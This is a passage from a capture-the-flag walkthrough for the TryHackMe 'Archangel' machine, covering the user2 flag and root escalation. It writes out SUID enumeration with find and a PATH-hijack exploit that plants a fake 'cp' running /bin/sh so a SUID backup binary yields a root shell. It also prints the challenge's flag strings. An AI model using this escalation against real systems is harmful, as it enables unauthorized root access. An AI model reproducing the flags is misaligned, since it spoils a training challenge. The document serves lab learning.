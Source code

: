 ```

From the above screenshot you can see that we got a shell as user “archangel”

Now, to look for the user 2 flag we run the find command

command:```find / 2>/dev/null | grep -i “user2.txt”```

![image](https://user-images.githubusercontent.com/67879936/222679116-83fadb7e-f3f9-4585-b94f-d3774a9ee77c.png)

User2 Flag:```thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}```

Now that we have gotten the flag for this task let’s move on to the last task


2. Root the machine and find the root flag

We will use the find command to search for suid binaries

command:```find / -perm -u=s -type f 2>/dev/null```

![image](https://user-images.githubusercontent.com/67879936/222679436-fa12b443-599f-4abb-b26a-e75eb88925fd.png)

Now, _/home/archangel/secret/backup_ is an unusual binary so lets go check it out.

![image](https://user-images.githubusercontent.com/67879936/222679597-3c85ab3c-d563-4f4b-ba2e-e3d5a9683777.png)

As we can see from the above screenshot Seems there is a “setuid” so that archangel can write to _/opt_ but the cp binary is called with a relative name instead of the absolute path. So, we can go ahead to make it called a controlled one.

Hence, we have to use these commands

```
TD=$(mktemp -d)
echo ‘/bin/sh’ > “$TD/cp”
chmod a+x “$TD/cp”
export PATH=$TD:$PATH
export PATH=$TD:$PATH
secret/backup
```
![image](https://user-images.githubusercontent.com/67879936/222679803-15f2c1e6-aae4-4b13-8afb-c0126bbb9960.png)

Now, after running those commands we got the root shell.

Lastly, lets grab the root flag

![image](https://user-images.githubusercontent.com/67879936/222679872-6c93001e-e810-46f5-b86d-82ab14cdf47b.png)

Root Flag:```thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}```

That will be all for today
<br> <br>
[Back To Home](../../index.md)





```
